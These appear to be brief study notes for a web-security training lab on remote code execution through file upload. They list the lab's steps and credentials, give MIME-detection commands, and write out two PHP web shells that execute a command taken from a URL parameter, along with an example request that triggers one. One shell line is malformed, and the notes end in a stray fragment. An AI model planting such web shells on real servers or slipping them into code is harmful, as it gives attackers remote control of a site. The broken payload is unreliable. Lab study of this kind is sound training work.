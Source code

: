 # Lab: Remote code execution via web shell upload

## End goal: upload a basic PHP web shell and get the contents of the file /home/carlos/secret

Credentials: wiener:peter

1. Learn site functionality

2. Upload avatar 

3. Detect endpoint 

4. Creat payload in php

5. Upload it and get content of secret file

xdg-mime built-in utility to detetct MIME-type

xdg-mime query filetype some_file.ext

file --mime-type some_file.ext

-------------------------------------------
Additional shell

<?php echo system($_GET['command']); ?>

<?php passthru($_GET['command'])>

HTTP-request
GET /example/exploit.php?command=id HTTP/1.1

Some new text lets